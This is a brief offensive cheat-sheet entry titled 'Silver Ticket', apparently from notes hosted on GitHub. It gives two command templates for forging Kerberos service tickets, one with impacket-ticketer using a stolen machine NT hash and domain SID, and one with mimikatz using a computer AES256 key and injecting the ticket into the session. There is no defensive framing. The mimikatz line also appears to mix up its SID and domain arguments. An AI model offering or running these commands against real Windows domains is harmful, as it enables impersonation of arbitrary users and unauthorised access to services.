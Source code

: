 # Silver Ticket

 - impacket-ticketer -nthash MACHINE_NT_HASH -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

 - mimikatz "kerberos::golden /sid:CURRENT_USER_SID /domain:DOMAIN_SID /target:TARGET_SERVER /service:TARGET_SERVICE /aes256:COMPUTER_AES256_KEY /user:ANY_USER /ptt"
